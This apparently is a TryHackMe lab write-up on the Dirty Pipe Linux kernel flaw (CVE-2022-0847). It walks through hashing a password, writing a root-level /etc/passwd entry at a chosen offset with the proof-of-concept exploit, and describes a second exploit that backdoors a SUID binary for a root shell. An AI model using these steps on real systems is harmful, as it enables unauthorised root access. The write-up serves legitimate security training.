 ```yaml
---
description: https://tryhackme.com/room/dirtypipe
---
```


# Dirty Pipe: CVE-2022-0847

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

## Background

In March 2022, a researcher named Max Kellerman publicly disclosed a Linux Kernel vulnerability (nicknamed "Dirty Pipe" for its similarities to the notorious "[Dirty Cow](https://dirtycow.ninja)" exploit affecting older versions of the kernel) that allowed attackers to arbitrarily overwrite files on the operating system. The vulnerability was responsibly disclosed in early 2022 and was [publicly released in a blog post](https://dirtypipe.cm4all.com) written by Max Kellerman soon after patches were made available.

Arbitrary file overwrites at the kernel level can be very easily leveraged to escalate privileges on the machine (i.e. to obtain administrator, or "root" privileges). This is a devastating vulnerability, made more so by its reach: any devices running a vulnerable version of the Linux kernel (including Android phones) are affected!

## Overview

Due to their low-level nature, any in-depth discussion of kernel vulnerabilities quickly becomes rather complicated. As such we will keep the information in this task relatively light, in the interests of keeping the information easy to digest. If you would like to read an in-depth explanation of the vulnerability (including a full code analysis), you are highly encouraged to check out Max Kellerman's [original blog post](https://dirtypipe.cm4all.com).

## A Weaponized PoC

### Generating a SHA512Crypt Hash

The first thing we want to do is create a hash so that we can add a user to the /etc/passwd file

```bash
openssl passwd -6 --salt THM "PASSWORD"
$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.
```

We now want to make a template for what we want to add to /etc/passwd

```
'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'
```

### Finding an Offset

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Compile the Exploit

![Compile the Exploit](<../../../.gitbook/assets/image (24) (1) (1).png>)

### Run the Exploit

Then the command should look like this:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
'
```

{% hint style="warning" %}
Note: It is importtant to have that ' on the next line
{% endhint %}

![It Worked!](<../../../.gitbook/assets/image (21) (1).png>)

{% hint style="warning" %}
Note: This flag is partially hidden
{% endhint %}

<details>

<summary>flag.txt</summary>

THM{MmU4Zjg0NDdjNjFi\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}

</details>

## A Second Exploit

### Overview

In the previous task, we exploited the Dirty Pipe vulnerability using Max Kellerman's original proof of concept exploit code; however, other exploits have since been released. The original PoC allowed us to overwrite any file with arbitrary data at an offset of our choosing; however, other implementations have abused the arbitrary file write vulnerability in a variety of different ways.

To demonstrate this concept, a second exploit script has been added to the lab machine — this can be found on the target at `/home/tryhackme/Exploit/Bl4sty/dirtypipez.c`. As the directory structure suggests, this implementation was coded by [@bl4sty](https://twitter.com/bl4sty/), a security researcher who you may remember if you have already completed the "[SudoVulns: Baron Samedit](https://tryhackme.com/room/sudovulnssamedit)" room. The original exploit code can be downloaded from bl4sty's website [here](https://haxx.in/files/dirtypipez.c); however, as mentioned previously, a copy has already been added to the lab machine.

This exploit takes the arbitrary file write one stage further by abusing a rather special quality of the vulnerability. SUID Programs usually lose their [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) when you attempt to write to them; however, this does not happen with Dirty Pipe — in other words, we can write to any program that has permission to execute with higher privileges, without inadvertently destroying that extra permission (as would usually happen).

Bl4sty's exploit capitalises on this. Instead of overwriting a file like `/etc/passwd`, it overwrites a user-specified SUID binary (such as `/bin/su`), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. `root`). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  `/tmp` which has the SUID bit and calls `/bin/sh`. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

### Exploitation

#### Compile the Exploit

```bash
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ gcc dirtypipez.c -o exploit
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ls
dirtypipez.c  exploit
```

#### Run the Exploit

![We got Root!](<../../../.gitbook/assets/image (9) (1) (1).png>)

## Lessons Learned

* When looking for a Linux privilege escalation keep an eye out for the kernel version because if it is 5.8, this could be an easy attack vector
* Even if the linux operating system is read-only (like [bottlerocket](https://github.com/bottlerocket-os/bottlerocket)) the kernel could still be vulnerable to this attack

